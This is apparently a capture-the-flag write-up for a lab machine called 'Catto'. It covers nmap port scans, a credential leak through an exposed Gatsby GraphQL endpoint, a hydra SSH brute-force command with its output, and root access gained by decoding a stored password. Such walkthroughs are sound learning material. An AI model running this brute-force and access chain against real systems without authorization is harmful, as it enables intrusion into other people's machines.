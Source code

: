 # Catto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:03 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2500/tcp  filtered rtsserv
4907/tcp  filtered unknown
8080/tcp  open     http-proxy
18080/tcp open     unknown
30330/tcp open     unknown
36123/tcp open     unknown
38439/tcp open     unknown
42022/tcp open     unknown
42086/tcp filtered unknown
50400/tcp open     unknown
56339/tcp filtered unknown
```

Lots of ports open. Did a detailed scan as well:

```
$ sudo nmap -p 8080,18080,30330,36123,38439,42022,50400 -sC -sV --min-rate 3000 192.168.183.139
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:05 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Identity by HTML5 UP
|_http-open-proxy: Proxy might be redirecting requests
18080/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
30330/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
36123/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
38439/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
42022/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc2151f2c62aadd6ca0704de705ffa13 (RSA)
|   256 05e490d2002b9d14e39f4468d28ebcdc (ECDSA)
|_  256 ca804973f0c805aebd2b42371d13e071 (ED25519)
50400/tcp open  http    Node.js Express framework
|_http-title: Error
|_http-cors: HEAD GET POST PUT DELETE PATCH
```

### Web Enum --> GraphQL&#x20;

Port 8080 shows a portfolio page:

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

It was rather static, so I moved to port 30330. This page had some book reviews:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

This page looked more dynamic, so I ran a directory scan with `feroxbuster`, which found nothing of interest. Since we couldn't find anything with wordlists, I took a look through the local files:

There were a few interesting folders:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the folders. On the 'Using Typescript' page, there was a link to documentation:

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.gatsbyjs.com/docs/how-to/custom-configuration/typescript/" %}

On the documentation page, there was mention of GraphQL being used, and sure enough `/__graphql` was a valid directory on the website as per the documentation:

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

The left had some queries already valid, so I checked those out. Using the `allSitePage` reveals all directories, including a hidden one:

<figure><img src="../../../.gitbook/assets/image (18) (11).png" alt=""><figcaption></figcaption></figure>

Visiting it reveals a password:

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

This was a password to a Minecraft server. We didn't have a user, but the Minecraft page had some that we could try:

{% code overflow="wrap" %}
```
Minecraft: The Island by Max Brooks, #1 New York Times bestselling author of World War Z, is the first official Minecraft novel. In the tradition of iconic stories like Robinson Crusoe and Treasure Island, Minecraft: The Island will tell the story of a new hero stranded in the world of Minecraft, who must survive the harsh, unfamiliar environment and unravel the secrets of the island.

We loved this book so much that created a server. Already invited and added keralis, xisuma, zombiecleo, mumbojumbo, and waiting for a reply on the entire hermicraft clan. There is a limit on the server, but at least sabel, yvette, zahara, sybilla, marcus, tabbatha and tabby are already online and building.

Good luck everybody!
```
{% endcode %}

We can gather all the usernames into one wordlist:

```
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
keralis
xisuma
zombiecleo
mumbojumbo
```

I used `hydra` to brute force the creds:

```
$ hydra -L users -p WallAskCharacter305 192.168.183.139 ssh -s 42022
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-12 15:20:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking ssh://192.168.183.139:42022/
[42022][ssh] host: 192.168.183.139   login: marcus   password: WallAskCharacter305
```

We can then `ssh` in as `marcus`:

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### .bash --> Base64key Root Creds

There was a weird folder `.bash` within the user's home directory:

```
[marcus@catto ~]$ ls -la
total 20
drwx------  5 marcus marcus 167 Nov 25  2020 .
drwxr-xr-x. 3 root   root    20 Nov 25  2020 ..
-rw-r--r--  1 root   root    29 Nov 25  2020 .bash
-rw-------  1 marcus marcus   0 Apr 14  2021 .bash_history
-rw-r--r--  1 marcus marcus  18 Nov  8  2019 .bash_logout
-rw-r--r--  1 marcus marcus 141 Nov  8  2019 .bash_profile
-rw-r--r--  1 marcus marcus 312 Nov  8  2019 .bashrc
drwx------  4 marcus marcus  39 Nov 25  2020 .config
drwxr-xr-x  6 marcus marcus 328 Nov 25  2020 gatsby-blog-starter
-rw-------  1 marcus marcus  33 Jul 12 06:59 local.txt
drwxrwxr-x  4 marcus marcus  69 Nov 25  2020 .npm

[marcus@catto ~]$ cat .bash
F2jJDWaNin8pdk93RLzkdOTr60==
```

This string looked like `base64` but it wasn't. I looked at other binaries with `base` as part of their name:

```
[marcus@catto ~]$ base
base32     base64     base64key  basename
```

`base64key` required a private key to decrypt, so I just tried the user's password and it worked:

```
[marcus@catto ~]$ base64key
Usage: ./a.out message key (0:encrypt|1:decrypt)
./a.out "Hello world" MYPRIVATEKEY 0
./a.out ttz9JqxZHBClNtu= MYPRIVATEKEY 1
[marcus@catto ~]$ base64key F2jJDWaNin8pdk93RLzkdOTr60== WallAskCharacter305 1
SortMentionLeast269
```

We can then `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (24) (3) (4).png" alt=""><figcaption></figcaption></figure>
